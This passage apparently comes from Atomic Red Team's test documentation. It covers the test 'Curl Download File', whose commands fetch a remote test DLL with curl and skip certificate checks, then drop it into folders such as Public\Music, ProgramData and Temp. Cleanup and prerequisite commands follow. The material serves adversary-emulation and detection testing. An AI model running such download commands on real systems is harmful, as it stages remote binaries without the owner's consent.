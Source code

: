 #### Cleanup Commands:

```powershell
$inetcache = $env:LOCALAPPDATA + "\Microsoft\Windows\INetCache\"
$file_to_be_removed = [string[]] (Get-ChildItem -Path $inetcache -Include #{file_name}* -Recurse -Force -File -ErrorAction SilentlyContinue)
if("" -ne "$file_to_be_removed") { Remove-Item "$file_to_be_removed" -ErrorAction Ignore }
```

<br/>
<br/>

## Atomic Test #18 - Curl Download File

The following Atomic utilizes native curl.exe, or downloads it if not installed, to download a remote DLL and output to a number of directories to simulate malicious behavior.
Expected output will include whether the file downloaded successfully or not.

**Supported Platforms:** Windows

**auto_generated_guid:** 2b080b99-0deb-4d51-af0f-833d37c4ca6a

#### Inputs:

| Name          | Description      | Type   | Default Value                                                                                                                         |
| ------------- | ---------------- | ------ | ------------------------------------------------------------------------------------------------------------------------------------- |
| file_download | File to download | string | https://github.com/redcanaryco/atomic-red-team/raw/058b5c2423c4a6e9e226f4e5ffa1a6fd9bb1a90e/atomics/T1218.010/bin/AllTheThingsx64.dll |
| curl_path     | path to curl.exe | path   | C:&#92;Windows&#92;System32&#92;Curl.exe                                                                                              |

#### Attack Commands: Run with `command_prompt`!

```cmd
#{curl_path} -k #{file_download} -o c:\users\public\music\allthethingsx64.dll
#{curl_path} -k #{file_download} --output c:\users\public\music\allthethingsx64.dll
#{curl_path} -k #{file_download} -o c:\programdata\allthethingsx64.dll
#{curl_path} -k #{file_download} -o %Temp%\allthethingsx64.dll
```

#### Cleanup Commands:

```cmd
del c:\users\public\music\allthethingsx64.dll >nul 2>&1
del c:\users\public\music\allthethingsx64.dll >nul 2>&1
del c:\programdata\allthethingsx64.dll >nul 2>&1
del %Temp%\allthethingsx64.dll >nul 2>&1
```

#### Dependencies: Run with `powershell`!

##### Description: Curl must be installed on system.

##### Check Prereq Commands:

```powershell
if (Test-Path #{curl_path}) {exit 0} else {exit 1}
```

